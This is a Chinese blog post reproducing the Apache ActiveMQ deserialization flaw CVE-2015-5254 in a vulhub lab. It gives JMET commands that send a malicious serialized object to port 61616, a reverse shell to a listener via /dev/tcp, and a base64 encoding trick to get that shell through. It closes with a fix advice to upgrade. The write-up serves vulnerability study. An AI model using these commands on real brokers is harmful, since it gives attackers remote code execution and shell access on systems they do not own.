 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aqD7VIdzPpe2uKOFuQJxxw)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa260lZABWwEo49lodRtpGIOor5ICf3PeT155y2nHC0aGNudfnDegOD0sibZMLBVyvxNiaxKibIT9cHzEw/640?wx_fmt=png)

ActiveMQ 反序列化漏洞复现 (CVE-2015-5254)

**前言：**

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。由于 ActiveMQ 是一个纯 Java 程序，因此只需要操作系统支持 Java 虚拟机，ActiveMQ 便可执行。

### **漏洞描述：**

### Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。

### 使用 vulhub 进行搭建漏洞环境

```
# 进入某一个漏洞/环境的目录
cd  activemq/CVE-2015-5254/
# 启动运行环境
docker-compose -up -d
```

**漏洞复现：**

1. 构造（可以使用 ysoserial）可执行命令的序列化对象  
2. 作为一个消息，发送给目标 61616 端口  
3. 访问 web 管理页面，读取消息，触发漏洞的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。

工具：JMET

使用详情：

https://github.com/matthiaskaiser/jmet

下载地址：  

https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

创建队列消息并写入命令。  

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME ip  61616
```

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpPANyNX89TkanlsJRRTWFGNJJpRUNWiczGg73Vdv84jMM1eK7tZYtTww/640?wx_fmt=jpeg)

进入容器转到 / tmp 目录下，发现没有创建文件，这是因为当执行命令后会给目标的 ActiveMQ 添加一个名为 event 的队列, 通过访问

http://ip:8161/admin/browse.jsp?JMSDestination=event

看到这个队列中所有的消息。

```
#列出所有在运行的容器信息。
docker ps
#进入容器
docker exec -it  cc0e9385f975  /bin/bash
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpamCSpPFHib4L85iaIO6PCgEE1EoDGYdRR6Yux0rVbsrLgCXNHNBejZOw/640?wx_fmt=png)  

点击触发后，执行命令。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpZ0BwQckXvOJO3G0Yl7fjIW0RbbEhiapef9Pnt9KSVkEGw5BTgwCeJQw/640?wx_fmt=png)

命令执行成功。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpkFfKgqR5n2x5er5gG02TAWPrujsol7WzBRoNNgibNrqkO7TnkjeX6Ug/640?wx_fmt=png)

反弹 shell

直接反弹时无法成功。可以通过 base64 进行反弹。

无法反弹。

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/ip/7777 0>&1" -Yp ROME  ip 61616
```

base64 绕过。  

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo payload的basse64编码}|{base64,-d}|{bash,-i}" -Yp ROME  ip 61616
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpMDQFeUS3DGM4noV4KUDcP2UoYpiarLfeVTcLXJxzeowBrNDadhxIc6g/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpD7X1NyXOk3SAG3lyh13lYN4HMR3ecHndQ4p7CSL3u1JLMe6yQJJhOQ/640?wx_fmt=png)

反弹成功。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27qPMD9tmn9CewY9hsibpyDpubuCKFceSNuBKkW7CibvMlZBWkxszrGebZ8DH1qzibLd4cIAkAYiaD7EQ/640?wx_fmt=png)

**影响版本**

        Apache ActiveMQ <5.13.x

**修复建议**

        升级到最新版本

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa260lZABWwEo49lodRtpGIOoYYt5Ojm4Y1sdMD4ez7rL55g1IW3icCTOia91YicOrh1sjuOB5TiaUibCiaiaA/640?wx_fmt=jpeg)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。